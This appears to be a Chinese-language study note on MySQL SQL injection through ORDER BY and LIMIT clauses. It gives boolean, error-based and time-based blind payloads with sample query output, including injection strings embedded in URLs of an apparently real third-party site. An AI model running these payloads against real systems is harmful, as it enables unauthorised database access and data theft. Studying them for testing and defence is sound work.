 ### Order by
**根据返回结果顺序判断注入：**
1. IF
```
select * from news order by if(1=1),1,(select 1 from INFORMATION_SCHEMA.SCHEMATA));
select * from news order by if(1=2),1,(select 1 from INFORMATION_SCHEMA.SCHEMATA));
```
&#8195;&#8195;因为 Order by 的值需要为唯一，而 `select 1 from INFORMATION_SCHEMA.SCHEMATA` 会返回多个，所以会产生报错。

2. CASE WHEN
```
http://quan.zhubajie.com/index/list-fid-5-order-(case when(1=1) then dateline else membernum end)-page-1.html
http://quan.zhubajie.com/index/list-fid-5-order-(case when(1=2) then dateline else membernum end)-page-1.html
```

3. REGEXP

```
SELECT * from news order by (select 1 regexp if(1=1,1,0x00));
+-----+-------------+-----------------------+
| tid | title       | content               |
+-----+-------------+-----------------------+
|   1 | 新闻1       | 这是第一篇文章        |
|   2 | 新闻2       | 这是第二篇文章        |
|   3 | 新闻3       | 我是第三篇文章        |
+-----+-------------+-----------------------+
```
在 `1=2` 时候，我测试也能正确查询，可能是版本原因？

**利用方法**
```
select * from news order by updatexml(1,if(1=1,user(),2),1);
select * from news order by if(substr(user(),1,1)='r',sleep(1),1);
```
其实就是盲注的方式。

### Limit
**无 Order by**
```
(SELECT 1 from mysql.user limit 0,1) union (select 234);
+-----+
| 1   |
+-----+
|   1 |
| 234 |
+-----+
2 rows in set (0.01 sec)
```
&#8195;&#8195;可能也是版本原因，我测试时候两个查询必须括起来，否则语法错误，这样的话也无法利用。

**有 Order by**
&#8195;&#8195;Limit 在 `5.0.0 < MySQL < 5.6.6` 版本可以使用 `procedure analyse`函数注入，但是高版本对具体处理做了限制，该方法已失效，8.0 版本甚至不能使用该函数：
```
mysql> SELECT id FROM test WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(1,extractvalue(rand(),concat(0x3a,version())));

mysql> SELECT 1 from mysql.user order by 1 limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
ERROR 1105 (HY000): XPATH syntax error: ':5.1.73-log'

mysql> SELECT 1 from mysql.user order by 1 limit 0,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(50000000,SHA1(1)),1))))),1);
ERROR 1105 (HY000): XPATH syntax error: ':0'
```

